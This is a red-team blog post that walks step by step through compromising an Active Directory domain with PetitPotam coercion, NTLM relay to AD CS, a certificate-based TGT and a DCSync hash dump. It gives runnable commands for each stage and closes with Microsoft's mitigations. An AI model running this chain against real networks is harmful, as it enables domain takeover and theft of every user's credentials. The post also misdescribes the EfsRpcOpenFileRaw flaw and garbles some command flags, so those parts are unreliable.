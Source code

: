 ```yaml
---
layout: post
title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
date: "2025-03-21"
authors: ["joao_paulo_assis"]
categories: ["Pentesting", "Red Team", "Hacking", "Active Directory"]
description:
thumbnail: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
image: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
comments: false

meta_title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
meta_description:
meta_image: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
---
```


Today, we’re going to discuss a vulnerability that has been known for some time, yet continues to be a thorn in the side of many domain administrators: the notorious <strong>PetitPotam</strong>.

But what exactly is this vulnerability? It’s a flaw associated with the <strong>MS-EFSRPC</strong> protocol (Microsoft Encrypting File System Remote Protocol, which is a Remote Procedure Call interface used to manage encrypted data, enforcing access control policies and confidentiality against unauthorized access). When combined with an NTLM Relay attack, this vulnerability allows an attacker to force a Domain Controller (DC) to authenticate to a listener under the attacker’s control. The attacker can then relay these credentials to another target—most commonly to AD CS (Active Directory Certificate Services). As a result, the attacker can obtain a certificate issued by the Domain Controller, which can then be used to request a Ticket Granting Ticket (TGT), thereby compromising the domain using the Pass-The-Ticket technique.

It’s worth noting that there are several other ways to combine this attack to exploit different flaws in Active Directory processes. However, the method I’ll be focusing on today is related to AD CS. AD CS is particularly interesting because it offers services and functionalities that, <strong>by default</strong>, accept NTLM-based authentication. These services specifically include the <strong>Certificate Authority Web Enrollment</strong> and the <strong>Certificate Enrollment Web Service</strong>.

Alright, let’s get straight to the point. First of all, how can this vulnerability be identified? Thanks to the great NetExec project, we have a module called PetitPotam at our disposal. This module essentially replicates the process carried out by the exploit, which involves performing an insufficient path check in the MS-EFSR protocol using the EfsRpcOpenFileRaw method. This method allows attackers to force the SYSTEM account to create an executable file of their choice, thereby granting local administrative privileges.

So, we can use the following command syntax:

> nxc smb $target-IP -u username -p password -M coerce_plus -o METHOD=PetitPotam

If the system is vulnerable, you’ll see a result similar to this:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/result-vulnerable.webp" alt="Result Vulnerable" %}
</center>

As we can see, it already provides us with the information on where to find the exploit to take advantage of this vulnerability — it can be found at
<a href="https://github.com/topotam/PetitPotam/" target="_blank">https://github.com/topotam/PetitPotam/</a>

Alright, now that we have the exploit in hand, we can move on to the next step, which is configuring ntlmrelayx to capture the authentication and relay it to the AD CS server. You can find ntlmrelayx in Fortra’s repository: <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py" target="_blank">https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py</a>

The ntlmrelayx configuration syntax will look something like this:

> python3 ntlmrelayx.py -debug -t http://adcs.alvo.com.br/certsrv/certfnsh.asp -smb2support — adcs — template DomainController

In place of adcs.alvo.com.br, you’ll need to specify the URL of your domain’s AD CS. I’m guessing you’d appreciate a tip on how to find that information—no worries, I’ve got you covered! :)

There are several ways to identify or enumerate AD CS. I’ll leave a link below with a variety of commands using both certutil and ldapsearch for that purpose—make good use of it!

{% include framework/shortcodes/link-preview.html
   link="https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates"
   title="ADCS PrivEsc: Certificate Templates"
   subtitle="Privilege escalation with Active Directory Certificate Services"
   domain="0xalwayslucky.gitbook.io"
%}

Now that we have this information, we can move on to executing our exploit with the goal of relaying the credentials to AD CS and obtaining our valuable base64-encoded PKCS#12 certificate in the name of the Domain Controller. The syntax for running the exploit would look something like this:

> python3 petitpotam.py $listener-ip $target-ip

<strong>Note: If you’re running this on a Windows machine, you may need to provide authentication to the exploit, which would look like this:</strong>

> python3 petitpotam.py -u username -p password -d domain $listener-ip $target-ip

What is <strong>$listener-ip?</strong> It refers to the IP address where the ntlmrelayx server is running. Keep in mind that this server must be able to communicate with both the Domain Controller and the AD CS. As for <strong>$target-ip</strong>, it refers to the IP address of the vulnerable Domain Controller that was identified during the CrackMapExec phase.

If the exploit runs successfully, you’ll receive something like this on your ntlmrelayx output:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/logs.webp" alt="LOGS" %}
</center>

Great — we now have our base64-encoded PKCS#12 certificate issued by AD CS in the name of the Domain Controller. So, what’s the next step? We need to obtain a TGT using this certificate. In many articles, tools like Kekeo, Rubeus, and Mimikatz are commonly used to carry out this stage of the attack, but there are other ways we can leverage this as well.

To obtain the TGT, I recommend using a tool called gettgtpkinit.py, which can be found in the following repository: <a href="https://github.com/dirkjanm/PKINITtools" target="_blank">https://github.com/dirkjanm/PKINITtools</a>

The syntax will look something like this:

> python3 gettgtpkinit.py domain/username -pfx-base64 (certificate) dc.ccache

Keep in mind that the username should be the user the certificate is linked to—in the example above, that would be <strong>DC-101$</strong>. And where it says (certificate), you’ll replace it with the base64 string that was generated. Once executed, you’ll then have your TGT—in this case, saved as dc.ccache.

With the TGT in hand, there are a number of actions you can now perform within Active Directory. However, to complete our objective of becoming a Domain Admin, we can carry out a DCSync attack. In short, a DCSync attack is an exploitation technique that allows an attacker to mimic the behavior of a Domain Controller (DC) on a network and request password information from other Domain Controllers. This is done through Active Directory replication—a process normally used to synchronize account and password data between Domain Controllers. The DCSync attack can be used to obtain password hashes of specific accounts, including administrator accounts, without requiring physical or administrative access to the target system.

We can use secretsdump to carry out the DCSync attack. To do this, we first need to export our TGT to the Kerberos authentication environment variable using the following command (for Linux machines):

> export KRB5CCNAME=dc.ccache

And the syntax would look something like this:

> python3 secretsdump.py -just-dc -debug -k -no-pass domain\username -outputfile DC.secretsdump

And watch the magic happen—from that point on, you’ll have access to all the password hashes of the domain’s users, including the hashes of the Domain Admins. With that, you can either attempt to crack the passwords and potentially view them in plain text, or alternatively, leverage techniques like Pass-the-Hash to access other services and processes across the network.

And after all, how can our fellow defenders of the realm — the Blue Teamers — mitigate this vulnerability?

There are several ways to mitigate it — some of them even recommended by Microsoft itself, such as:

1. Enable EPA (Extended Protection for Authentication) for Certificate Authority Web Enrollment — <strong>this is the most secure and recommended option</strong>;

2. Enable EPA for the Certificate Enrollment Web Service — <strong>again, the most secure and recommended option</strong>;

3. Enable <strong>“Require SSL,”</strong> which enforces HTTPS-only connections.

Additionally, it’s recommended to evaluate the use of the NTLM protocol across the entire environment. If it’s not necessary, the use of the protocol should be completely removed or disabled.

For more detailed information on mitigation, I recommend checking out the link below:

{% include framework/shortcodes/link-preview.html
   link="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?source=post_page-----851736c57870---------------------------------------"
   title="KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)"
   subtitle="Microsoft is aware of PetitPotam which can potentially be used to attack Windows domain controllers or other Windows servers."
   domain="support.microsoft.com"
%}
